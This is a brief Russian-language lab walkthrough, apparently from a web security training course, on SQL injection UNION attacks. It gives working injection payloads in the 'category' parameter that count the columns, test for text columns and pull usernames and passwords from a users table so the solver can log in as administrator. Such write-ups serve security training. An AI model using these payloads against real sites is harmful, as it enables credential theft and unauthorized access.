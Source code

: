 ## Lab: Lab: SQL injection UNION attack, determining the number of columns returned by the query
1) Переходим на сайт задания и заходим в раздел Pets
2) Убедимся, что запрос возвращает два столбца, отправив строку category=Pets'+UNION+SELECT+NULL,NULL--
3) Убедимся, что оба столбца содержат текст, отправив category=Pets'+UNION+SELECT+'abc','def'--
4) Используем следующий запрос для извлечения данных из таблицы users: category=Pets'+UNION+SELECT+username,password+FROM+users--
5) Находим пароль от administrator и входим в систему

Готово!
